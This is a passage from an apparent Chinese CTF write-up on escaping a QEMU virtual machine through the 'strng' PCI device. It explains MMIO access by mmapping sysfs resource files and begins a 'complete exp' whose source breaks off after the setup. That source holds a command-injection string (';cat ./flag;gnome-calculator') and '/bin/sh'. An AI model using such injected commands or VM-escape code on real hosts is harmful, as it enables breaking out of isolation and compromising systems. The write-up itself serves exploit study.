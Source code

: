 MMIO 的交互方式则略有麻烦，因为 MMIO 本质上是直接读写对应的物理地址，不过我们可以通过 `mmap()` 映射 sysfs 下的资源文件来完成内存访问。以本题为例，通过 `lspci` 命令获取到的编号为 `00:03.0`，那么我们便可以通过 `mmap()` 映射 `/sys/devices/pci0000:00/0000:00:03.0/resource0` 文件直接完成 MMIO。类似于 PMIO，MMIO 的读写地址同样需要对齐到读写长度。下面是一个例子：

```c
void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
{
    return *addr;
}

int main(int argc, char **argv, char **envp)
{
    uint64_t  mmio_addr;
    int   mmio_fd;
    long  val;
    //...
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    val = mmio_read(mmio_addr);
    mmio_write(mmio_addr + 4, 0xbeefdead);
```

> 注：我们也可以通过映射 `/sys/devices/pci0000:00/0000:00:03.0/resource1` 文件的形式来以内存读写的形式完成 PMIO。

完整 exp 如下，执行了 `cat ./flag` 与弹计算器的命令：

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/io.h>

#define STRNG_MMIO_REGS 64
#define STRNG_MMIO_SIZE (STRNG_MMIO_REGS * sizeof(uint32_t))

#define STRNG_PMIO_ADDR 0
#define STRNG_PMIO_DATA 4
#define STRNG_PMIO_REGS STRNG_MMIO_REGS
#define STRNG_PMIO_SIZE 8

char calc_str[0x100] = ";cat ./flag;gnome-calculator";
char sh_str[0x100] = "/bin/sh";

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}
```